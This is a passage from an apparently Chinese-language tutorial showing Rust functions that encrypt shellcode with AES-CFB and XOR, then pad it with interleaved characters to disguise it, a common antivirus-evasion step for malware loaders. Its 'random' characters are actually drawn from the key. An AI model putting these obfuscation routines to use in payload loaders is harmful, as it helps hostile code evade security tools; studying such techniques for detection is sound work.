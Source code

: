 ```plain
    let mut buffer = [0u8; 2560];
    buffer[..pos].copy_from_slice(shellcode);

    let ciphertext = cipher.encrypt(&mut buffer, pos).unwrap();

    hex::encode(ciphertext)
}

fn dec(encrypted: &str, key: &str, iv: [u8; 16]) -> Vec<u8> {
    let binding = hex::decode(encrypted).expect("Decoding failed");
    let ciphertext = binding.as_slice();

    let key = key.as_bytes().to_vec();

    let cipher = Aes128ECfb::new_from_slices(key.as_slice(), iv.as_slice()).unwrap();

    let mut buf = ciphertext.to_vec();
    let shellcode = cipher.decrypt(&mut buf).unwrap();

    shellcode.to_vec()
}
```

### 添加随机字符

同样先在`Cargo.toml`文件中添加下面的依赖。

```plain
[dependencies]
hex = "0.4.3"
```

下面是结合异或加密和添加随机字符的代码，`xor_encrypt`将对shellcode与key进行异或，使用`hex::encode`将异或结果转为十六进制字符串返回，方便后面添加随机字符。`add_random`迭代`xor_encrypt`返回的字符串的每个字符，并在每次迭代时添加一个随机字符。最后，使用 `hex::encode` 将结果转为十六进制字符串返回。`xor_decrypt`和`rm_random`是对应的二次异或和删除随机字符的函数。

```plain
fn xor_encrypt(shellcode: &[u8], key: &[u8]) -> String {
    let mut encrypted = Vec::new();
    for (i, &b) in shellcode.iter().enumerate() {
        encrypted.push(b ^ key[i % key.len()]);
    }
    hex::encode(&encrypted)
}

fn xor_decrypt(encrypted: &[u8], key: &[u8]) -> Vec<u8> {
    let encrypted = hex::decode(encrypted).expect("Error");

    let mut decrypted = Vec::new();
    for (i, &b) in encrypted.iter().enumerate() {
        decrypted.push(b ^ key[i % key.len()]);
    }
    decrypted
}

fn add_random(xor_string: &str, key: &str) -> String {
    let mut result = String::new();

    for (i, c) in xor_string.chars().enumerate() {
        result.push(c);
        result.push(key.chars().nth(i % key.len()).unwrap());
    }
    hex::encode(&result)
}

```